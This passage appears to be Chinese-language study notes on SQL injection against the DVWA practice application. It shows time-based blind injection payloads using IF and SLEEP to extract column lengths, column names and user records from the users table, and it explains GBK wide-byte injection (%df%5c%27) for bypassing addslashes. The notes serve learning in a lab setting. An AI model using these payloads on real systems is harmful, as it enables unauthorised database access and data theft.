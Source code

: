 ### 判断字段的长度

```sql
select '1' and if((select length((select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 0,1))=7),1,sleep(5)) #
select '1' and if((select length((select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 1,1))=10),1,sleep(5)) #
select '1' and if((select length((select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name=0x7573657273))=73),1,sleep(5)) #
select '1' and if((select length((select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'))=73),1,sleep(5)) #


7+10+9+4+8+6+10+12	每个字段长度
66+7				加上逗号长度
73
```

### 判断字段名称

```sql
select '1' and if((ord(substr((select table_name from information_schema.columns where
table_schema='dvwa' and table_name='users' limit 0,1),1,1))<96),sleep(5),1) #

1' and if(left((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1),1)='u',sleep(5),1) #		获取字段名
```

### 判断数据

```sql
select '1' and if((ord(substr((select user from dvwa.users limit 0,1),1,1))>96),sleep(3),1) #

1' and if(left((select user from users limit 0,1),1)='a',sleep(5),1) #		获取数据
1' and if(left((select user from users limit 0,1),2)='ad',sleep(5),1) #
```

## 其他类型注入

### 宽字节注入

由于不同的字符编码所导致的。

GBK编码（页面 + 数据库）如果前面的ascii码大于128，mysql就会将两个字符视为一个汉字。

一个汉字占两个字节（首字节-尾字节）

```
%df
addslashes
'    \'
\   %5C
'   %27
1'	 1\'
1%df'   1%df%5c'   
%df%5c   縗
%df%5c%27   縗'
```

